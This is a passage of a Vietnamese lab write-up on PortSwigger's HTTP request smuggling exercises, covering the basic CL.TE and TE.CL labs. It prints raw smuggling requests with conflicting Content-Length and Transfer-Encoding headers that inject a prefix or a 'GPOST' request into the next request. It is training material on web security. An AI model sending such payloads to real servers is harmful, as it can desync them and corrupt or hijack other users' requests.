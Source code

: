 >Phát hiện vul `CL.TE`:
>![image](https://hackmd.io/_uploads/rk3a0HGO0.png)

>Request trang chủ với method **POST**. Do đây là dạng `CL.TE` nên ta sẽ gửi request dạng:
```
POST / HTTP/1.1
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

>Lúc này, front-end server sẽ hiểu body chứa 6 kí tự bắt đầu từ kí tự `0` đến kí tự `G`, trong khi back-end server hiểu body là 1 chunk size `0` nên kết thúc request đầu và chèn kí tự `G` vào request tiếp theo.

>Gửi lần 1 (Lưu ý hạ phiên bản HTTP xuống /1.1) => `G` được coi là kí tự đầu của request tiếp theo:
>![image](https://hackmd.io/_uploads/SJAnWLM_A.png)

>Gửi lần 2, `G` ghép với `POST` của request tiếp theo thành `GPOST` → front-end server coi đó là phương thức `GPOST` và xảy ra lỗi không nhận dạng được method **"Unrecognized method GPOST"**:
>![image](https://hackmd.io/_uploads/rkRaWLMO0.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/BJbgGUM_0.png)

### **2. Lab: HTTP request smuggling, basic TE.CL vulnerability**
![image](https://hackmd.io/_uploads/SJ9FfLM_C.png)

>Thực hiện scan và phát hiện bài này thuộc dạng `TE.CL`:
>![image](https://hackmd.io/_uploads/HkG5H8GdC.png)

>Ta sẽ gửi request có dạng như sau:
```
POST / HTTP/1.1
Host: LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5a\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 13\r\n
\r\n
a\r\n
0\r\n
\r\n
```
